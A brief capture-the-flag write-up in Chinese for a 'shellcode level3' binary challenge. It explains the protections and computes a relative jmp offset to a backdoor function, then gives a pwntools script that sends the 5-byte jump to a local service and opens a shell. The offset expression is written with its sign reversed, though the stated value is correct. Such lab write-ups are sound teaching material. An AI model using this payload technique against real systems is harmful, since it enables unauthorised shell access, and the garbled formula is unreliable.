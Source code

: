 # shellcode level3

## 文件分析

下载`shellcode_level3`, NX on, PIE off, Canary off, RELRO partial  
ghidra分析为64位程序

## 解题思路

程序读入5字节并执行，且存在后门函数  
考虑跳转指令执行shellcode跳转到此处

Shellcode: e8 -> call; e9 -> jmp  
后面可跟相对地址（跳转地址-跳转命令所在地址+5）  
相对地址为4Bytes

全局变量code地址0x404089，后门函数`givemeshell`地址0x4011d6  
那么相对地址为0x404089 + 5 - 0x4011d6 = 0xffffd148 `int32_t`

## EXPLOIT

```python
from pwn import *
sh = remote('localhost', 46239)
sh.sendline(b'\xe9' + p32(0xffffd148))
sh.interactive()
```

Done.
